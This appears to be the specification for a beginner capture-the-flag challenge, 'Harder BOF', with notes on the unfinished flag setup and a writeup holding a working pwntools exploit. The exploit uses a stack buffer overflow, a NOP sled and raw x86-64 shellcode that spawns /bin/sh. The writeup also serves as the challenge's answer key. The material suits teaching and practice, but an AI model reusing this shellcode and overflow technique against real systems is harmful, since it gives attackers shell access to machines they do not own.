 # Name
Harder BOF

# Description
Here is a slightly harder pwn challenge that requires you to know how to inject shellcode into a process via a stack buffer overflow. If you're having trouble, do some research on buffer overflows in C.

TODO: Put a netcat command here telling them which server to connect to in order to test the exploit.

# Difficulty
2/10

# Flag
I haven't programmed a flag into this yet. Basically, after they exploit the program, they should get a shell into the server running this program. There should be a flag.txt file on that server in the same directory as the program, which they should be able to cat. Whoever is setting up this server can just put whatever they want into the flag.txt file and have that be the flag.

# Hints
None

# Author Name
Nihaal Prasad

# Writeup
This should be pretty self-explanatory since it's just a basic buffer overflow. Just run this exploit.
```python
#!/usr/bin/env python3
from pwn import *

# Open up the process
p = process("./bof_harder", stdin=PTY)
#p = gdb.debug("./bof_harder", "b *main+224")

# Ignore the first line
p.recvline()

# Second line contains the address
addr = int(p.recvline(), 16) + 9 - 152
print(addr)
addr = p64(addr)

# Generate the payload
shellcode = b"\x48\x81\xec\xf4\x01\x00\x00\x48\x31\xc0\x48\x31\xff\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x48\x31\xc0\xb0\x3b\x48\x31\xdb\x53\xbb\x6e\x2f\x73\x68\x48\xc1\xe3\x10\x66\xbb\x62\x69\x48\xc1\xe3\x10\xb7\x2f\x53\x48\x89\xe7\x48\x83\xc7\x01\x48\x31\xf6\x48\x31\xd2\x0f\x05"
nops = b'\x90'*(152 - len(shellcode))
payload = nops + shellcode + addr

# Trigger the buffer overflow
p.sendline(payload)
p.interactive()
```
